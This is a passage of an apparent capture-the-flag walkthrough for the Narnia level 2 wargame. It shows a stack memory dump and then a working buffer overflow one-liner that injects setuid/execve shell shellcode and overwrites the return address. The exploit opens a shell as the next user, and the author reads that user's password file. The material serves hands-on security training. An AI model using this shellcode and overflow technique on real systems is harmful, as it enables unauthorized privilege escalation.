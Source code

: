 >0xffffd8a0:	0x41414141	0x52524141	0x52525252	0x52525252
>0xffffd8b0:	0x52525252	0x52525252	0x52525252	0x52525252
>0xffffd8c0:	0x41415252	0x58004141	0x535f4744	0x49535345
>0xffffd8d0:	0x495f4e4f	0x39333d44	0x00333535	0x4c454853
>0xffffd8e0:	0x622f3d4c	0x622f6e69	0x00687361	0x4d524554
>0xffffd8f0:	0x6574783d	0x53006d72	0x435f4853	0x4e45494c
>0xffffd900:	0x38363d54	0x352e312e	0x30322e38	0x38332032
>0xffffd910:	0x20393339	0x53003232	0x545f4853	0x2f3d5954
>```
>
> Looks like we need to switch out return address to ```0xffffd8a0```.  Let's try real fast.
>
>```
>narnia2@melinda:/narnia$ ./narnia2 $(python -c 'print "A"*112+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"+"\xa0\xd8\xff\xff"')
>$ whoami
>narnia3
>$ cat /etc/narnia_pass/narnia3
>**********
>$ 
>```
>
> Ahhh, it's always nice to see that prompt!  Time for narnia3.
